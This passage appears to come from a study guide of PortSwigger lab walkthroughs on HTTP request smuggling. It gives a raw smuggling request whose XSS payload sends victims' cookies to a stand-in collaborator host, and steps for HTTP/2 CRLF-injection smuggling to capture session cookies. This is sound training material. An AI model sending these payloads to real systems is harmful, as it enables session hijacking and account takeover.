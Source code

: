 ```html
POST / HTTP/1.1
Host: TARGET.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

> Check the PortSwigger Collaborator Request received from victim browsing target.

[PortSwigger Lab: Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)

#### HTTP/2 smuggling via CRLF injection

> Target is vulnerable to request smuggling because the front-end server **downgrades HTTP/2** requests and fails to adequately sanitize incoming headers. Exploitation is by use of an HTTP/2-exclusive request smuggling vector to steal a victims session cookie and gain access to user's account.

> _**Identify**_ possible vulnerability when Target reflect previous and recent search history based on cookie, by removing cookie it is noticed that your search history is reset, confirming that it's tied to your session cookie.

> Expand the Inspector's Request Attributes section and change the protocol to HTTP/2, then append arbitrary header `foo` with value `bar`, follow with the sequence `\r`, then followed by the `Transfer-Encoding: chunked`, by pressing **shift+ENTER**.

> Note: enable the **Allow HTTP/2 ALPN override** option and change the body of HTTP/2 request to below POST request.

```html
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=HACKER-SESSION-COOKIE
Content-Length: 800

search=nutty
```

[PortSwigger Lab: HTTP/2 request smuggling via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection)

[Youtube demo HTTP/2 request smuggling via CRLF injection](https://youtu.be/E-bnCGzl7Rk)
